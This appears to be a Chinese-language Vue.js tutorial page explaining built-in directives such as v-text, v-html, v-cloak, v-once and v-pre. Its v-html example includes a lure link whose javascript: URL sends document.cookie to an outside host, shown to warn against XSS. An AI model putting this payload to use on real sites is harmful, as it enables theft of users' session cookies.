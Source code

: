 ```yaml
---
description: 内置指令
autoPrev: filter
---
```


# 内置指令

在Vue中提供了一些对于页面 + 数据的更为方便的输出，这些操作就叫做指令，以`v-xx` 表示。

我们上面文章用到的 `v-if`，`v-show`，`v-on` 等都属于内置指令，接下来继续介绍其他常用的内置指令。

### v-text

```html
<div id="root">
  <div v-text="name"></div>
</div>
```

```js
<script type="text/javascript">
  new Vue({
    el:'#root',
    data:{
      name:'Hello Vue'
    }
  })
</script>
```
和插值语法“{{}}” 有点类似，但是 `v-text` 会替换掉节点中的内容，而“{{xx}}” 不会

### v-html

向指定节点中渲染包含html结构的内容。

```html
<div id="root">
  <div v-html="str"></div>
  <div v-html="str2"></div>
</div>
```

```js
<script type="text/javascript">
		new Vue({
			el:'#root',
			data:{
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
```

**<div style="color:red">注意：</div>

v-html有安全性问题！！！！

在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。

一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！


### v-vloak

 v-cloak 指令设置样式，这些样式会在 Vue 实例编译结束时，从绑定的 HTML 元素上被移除。

当网络较慢，网页还在加载 Vue.js ，而导致 Vue 来不及渲染，这时页面就会显示出 Vue 源代码。我们可以使用 `v-cloak` 指令来解决这一问题。

```html
<div id="root">
  <h2 v-cloak>{{name}}</h2>
</div>
```

```js
<script type="text/javascript">
  new Vue({
    el:'#root',
    data:{
      name:'Hello'
    }
  })
</script>
```
如果不加 `v-cloak` 在网速慢的情况下，会显示 `{{name}}`，之后才会渲染。

### v-once

v-once这个指令不需要任何表达式，它的作用就是定义它的元素或组件只会渲染一次，包括元素或者组件的所有字节点。首次渲染后，不再随着数据的改变而重新渲染。也就是说使用 `v-once`，那么该块都将被视为静态内容。

```html
<div id="root">
  <h2 v-once>初始化的n值是:{{n}}</h2>
  <h2>当前的n值是:{{n}}</h2>
  <button @click="n++">点我n+1</button>
</div>
```

```js
<script type="text/javascript"> 
  new Vue({
    el:'#root',
    data:{
      n:1
    }
  })
</script>
```

点击按钮没使用 `v-once` 的会发生改变，使用 `v-once` 的不会发生改变。

### v-pre

`v-pre` 跳过其所在节点的编译过程
```html
<div id="root">
  <h2 v-pre>当前的n值是:{{n}}</h2>
  <h2 >当前的n值是:{{n}}</h2>
  <button @click="n++">点我n+1</button>
</div>
```

```js
<script type="text/javascript">
  new Vue({
    el:'#root',
    data:{
      n:1
    }
  })
</script>
```
使用 `v-pre` 的标签里面的插值表达式就失效了。
